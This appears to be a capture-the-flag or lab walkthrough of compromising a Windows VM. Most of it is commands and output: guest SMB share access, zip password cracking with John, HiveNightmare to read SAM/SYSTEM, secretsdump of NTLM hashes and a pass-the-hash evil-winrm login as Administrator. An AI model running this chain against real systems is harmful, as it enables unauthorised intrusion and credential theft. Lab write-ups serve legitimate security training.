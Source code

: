 url=192.168.2.221

`nmap -p- -sV -T4 192.168.2.221`

```txt
Nmap scan report for 192.168.2.221
Host is up (0.00016s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



```text
netexec smb 192.168.2.221             
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating missing folder logs/sam
[*] Creating missing folder logs/lsa
[*] Creating missing folder logs/ntds
[*] Creating missing folder logs/dpapi
[*] Creating default workspace
[*] Initializing LDAP protocol database
[*] Initializing WMI protocol database
[*] Initializing SSH protocol database
[*] Initializing MSSQL protocol database
[*] Initializing NFS protocol database
[*] Initializing VNC protocol database
[*] Initializing SMB protocol database
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Initializing RDP protocol database
[*] Copying default configuration file
SMB         192.168.2.221   445    VM11             [*] Windows 10 / Server 2019 Build 19041 x64 (name:VM11) (domain:VM11) (signing:False) (SMBv1:False)
```

`netexec smb 192.168.2.221 -u guest -p '' --shares`
```
SMB         192.168.2.221   445    VM11             [*] Windows 10 / Server 2019 Build 19041 x64 (name:VM11) (domain:VM11) (signing:False) (SMBv1:False) 
SMB         192.168.2.221   445    VM11             [+] VM11\guest: (Guest)
SMB         192.168.2.221   445    VM11             [*] Enumerated shares
SMB         192.168.2.221   445    VM11             Share           Permissions     Remark
SMB         192.168.2.221   445    VM11             -----           -----------     ------
SMB         192.168.2.221   445    VM11             ADMIN$                          Remoteverwaltung
SMB         192.168.2.221   445    VM11             C$                              Standardfreigabe
SMB         192.168.2.221   445    VM11             IPC$            READ            Remote-IPC
SMB         192.168.2.221   445    VM11             Share           READ           
```

smbclient //192.168.2.221/Share -N

dir
  .                                  DR        0  Tue Jan 24 15:31:51 2023
  ..                                 DR        0  Tue Jan 24 15:31:51 2023
  backup.zip                          A  7456077  Mon Jan 23 13:21:32 2023
  desktop.ini                       AHS       46  Mon Jan 23 10:06:37 2023

get backup.zip

is encrypted

zip2john backup.zip > hash.txt


john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Password: !!!sagitario)))

Now can be unzpiped.


In Picture `IMG_2023_0135754.jpg` is username/password
Username: `gamma`
Password: `gammacanbedangerous!`


Login via rdp


Auch user.txt, with content:

`0571749e2ac330a7455809c6b0e7af90`

md5 Hash, original was: `sunshine` (Cracked with crackstation.net)

email file, with content:
```email
Return-Path: <hans.dampf@nudel.de>
Delivered-To: hans.dampf@nudel.de
Received: from mail.nudel.de
        by mail.nudel.de (Dovecot) with LMTP id QSoXKRHPz2OHCgAADJYtSw
        for <hans.dampf@nudel.de>; Tue, 24 Jul 2021 13:29:05 +0100
Received: from smtp.th-deg.de (smtp.nudel.de [132.113.135.186])
        by mail.nudel.de (Postfix) with ESMTPS id A7750899
        for <hans.dampf@nudel.de>; 24 Jul 2021 13:29:05 +0100 (CET)
Received: from [132.113.135.186] (unknown [132.113.135.186])
        by smtp.nudel.de (Postfix) with ESMTPSA id 20B642FB
        for <IT-Support@nudel.de>; Tue, 24 Jul 2021 13:29:05 +0100 (CET)
Message-ID: <24d3cd53-5837-c304-4fa5-0f8c0ad51f7d@nudel.de>
Date: Tue, 24 Jul 2021 13:29:03 +0100
MIME-Version: 1.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101
 Thunderbird/102.6.1
To: Hans Dampf <hans.dampf@nudel.de>
From: Tony Stark <IT-Support@nudel.de>
Subject: Info
Content-Type: text/plain; charset=UTF-8; format=flowed
Content-Transfer-Encoding: 8bit
X-PMX-Version: 6.4.9.2830568, Antispam-Engine: 2.7.2.2107409, Antispam-Data: 2023.1.24.122118, AntiVirus-Engine: 5.94.0, AntiVirus-Data: 2022.10.20.5940000

Hey Hans,

hattet ihr auch Probleme mit der neuen Schwachstelle? Bei uns hats so richtig gekracht. 
Weiß aber nicht mehr genau wie das hieß. Irgendwas mit Nightmare, aber nicht das mit den Druckern.

-- 
Mit freundlichen Grüßen
Tony Stark

Avengers
IT Lead, Billionare, Philanthrop, Playboy

Avengers Tower
NY, 246th Tech Ave
```


Search `nightmare vulnerability 2021` online results in the one with printers

So `nightmare vulnerability 2021 -print` gets rid of this and shows the other vulnerability


[Exploit](https://github.com/GossiTheDog/HiveNightmare?tab=readme-ov-file)

Transfer via updog and excute it. Upload the files to updogs webgui.


`secretsdump.py -system SYSTEM-2024-03-25 -sam SAM-2024-03-25 LOCAL`

```txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x55221814cab6e0d4381e170922897261
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a02a6c668a8d88c7c005330914d92b99:::
Gast:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11b2b18a97f7b0e8e88324091af010b8:::
gamma:1001:aad3b435b51404eeaad3b435b51404ee:754d78b3c7386a01f152c9fcab6c910d:::
[*] Cleaning up...
```


evil-winrm -H a02a6c668a8d88c7c005330914d92b99 -i 102.168.2.221 -u Administrator